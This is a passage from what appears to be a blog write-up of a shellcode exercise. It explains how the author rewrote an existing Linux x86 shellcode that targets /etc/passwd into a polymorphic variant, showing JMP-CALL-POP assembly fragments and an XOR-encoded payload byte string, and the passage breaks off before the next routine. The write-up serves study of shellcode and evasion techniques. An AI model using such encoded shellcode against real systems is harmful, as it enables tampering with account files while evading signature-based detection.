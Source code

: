 The size of the resulting shellcode is `123 bytes`, which means `115%` compared to the original shellcode. Since the majority of the bytes are completely different (e.g. the strings `/etc/passwd` and the new line added to the former), I think this is a good compromise.

### Analysis

Let's analyse the first two routines of the polymorphic shellcode:

```nasm
_start:

    jmp short CallRunShellcode

RunShellcode:

    pop edi
    mov esi, edi

    xor ecx, ecx
    mul ecx

    mov cl, 11
    
    ; ...

```

{% sidenote The assembly code in between has been omitted for clarity, in order to show the `JMP-CALL-POP` technique %}

```nasm
    ; ...

CallRunShellcode:

    call RunShellcode
    EncodedStringBytes: db 0x5e,0x06,0x17,0x16,0x5e,0x13,0x02,0x06,0x02,0x14,0x07,0x75,0x05,0x0c,0x0c,0x07,0x4b,0x59,0x53,0x4f,0x41,0x59,0x17,0x45,0x41,0x11,0x59,0x5a,0x03,0x0c,0x0c,0x01,0x4b,0x4c,0x01,0x1c,0x1f,0x4c,0x01,0x14,0x02,0x0b,0x69,0x75
```

Compared to the original shellcode, I'm still using the the `JMP-CALL-POP` technique. I decided against pushing all the bytes 4 DWORDS at a time, as that would require way more bytes (considering the XOR operations too).

I'm saving the pointer to the bytes referenced by `EncodedStringBytes` into the register `EDI` instead of `ESI`, in order to change the resulting bytes.

However, I had to use the register `ESI` too, because I would later use `EDX` for decoding the XOR-ed bytes.

The other instructions (`xor`, `mul`, and `mov`) weren't present in the original shellcode, but I needed them for the decoding stub.

Follows the next routine:
